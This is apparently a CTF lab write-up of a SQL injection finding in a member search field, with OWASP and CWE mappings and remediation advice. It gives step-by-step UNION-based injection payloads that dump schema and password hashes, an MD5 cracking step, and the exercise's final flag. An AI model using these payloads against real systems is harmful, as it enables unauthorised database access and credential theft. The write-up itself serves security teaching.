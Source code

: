 # Finding 07 - SQL injection on member searching input field


## Exploitability
Easy. Only 2 steps required : inject code in input field, then decrypt md5 using easy-to-find web tool.


## Risk level/type
OWASP top 10 :
- A02:2021 – Cryptographic Failures
	=>" Are deprecated hash functions such as MD5 or SHA1 in use [...] ?"
- A03:2021 – Injection
	=> "Hostile data is directly used or concatenated. The SQL or command contains the structure and malicious data in dynamic queries, commands, or stored procedures."
	=> "User-supplied data is not validated, filtered, or sanitized by the application."


Common Weakness Enumeration :

CWE-327: Use of a Broken or Risky Cryptographic Algorithm
https://cwe.mitre.org/data/definitions/327.html

CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')
https://cwe.mitre.org/data/definitions/89.html

CWE-20: Improper Input Validation
https://cwe.mitre.org/data/definitions/20.html


## Detailed description of the exploit
First check whether input field is protected against SQL injections by typing:
```1 or 1=1```
This yields 5 elements, seemingly from a SQL database. The last one being :

```
ID: 1 or 1 =1  
First name: Flag
Surname : GetThe
```
Ok, so that's already quite interesting!


Then, try more advanced SQL injection with the following two commands:
```1 AND 1=2 UNION SELECT table_schema, table_name FROM information_schema.tables```
and
```1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns ```
The results are copied in database_table_schema and database_table_columns files.
At the bottom of each listing, there are fields that seem to be user-generated (the only few names not fully capitalized)
The names can be found in the database_listing.md file.

From this info, we try another SQL injection command :
```1 and 1=1 UNION SELECT first_name, last_name from Member_Sql_Injection.users```
which yields the same result as the basic SQL injection try.


From this info, we try another SQL injection command :
```1 and 1=1 UNION SELECT user_id, countersign from Member_Sql_Injection.users```
which yields :
```
ID: 1 and 1=1 UNION SELECT user_id, countersign from Member_Sql_Injection.users 
First name: 5
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

And one last SQL injection command :
```1 and 1=1 UNION SELECT planet, Commentaire from Member_Sql_Injection.users```
which yields :
```
ID: 1 and 1=1 UNION SELECT planet, Commentaire from Member_Sql_Injection.users 
First name: 42
Surname : Decrypt this password -> then lower all the char. Sh256 on it and it's good 
```

The countersign/surname is probably hashed with md5, as this is the previously encountered hashing algorithm.
Let's verify it with the following website:
https://www.md5online.org/md5-decrypt.html

It works ! And yields the following :
FortyTwo
Let's convert it to lower case and encrypt it with sha256:
echo -n "FortyTwo" | tr '[:upper:]' '[:lower:]' | sha256sum | awk '{print $1}'
The flag is:
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5


## Remediation

Input sanitizing is the first step.
There are several ways to sanitize the input, depending on the code architecture (legacy).
The first step is to use prepared statements with parameterized queries
	-> this means that the query would not be evaluated as a command but as a string, looking for an exact match to the string (i.e. a username matching "1 or 1 = 1")
For legacy code, you can also escape all the user input before putting it in a query.

Also, md5 is now deprecated in favor of sha2 algorithms (sha256, sha512) as well as sha3 algorithms.


## Additional resources
https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html

https://cheatsheetseries.owasp.org/cheatsheets/Database_Security_Cheat_Sheet.html

md5 deprecation notice :
https://www.security-database.com/detail.php?alert=VU836068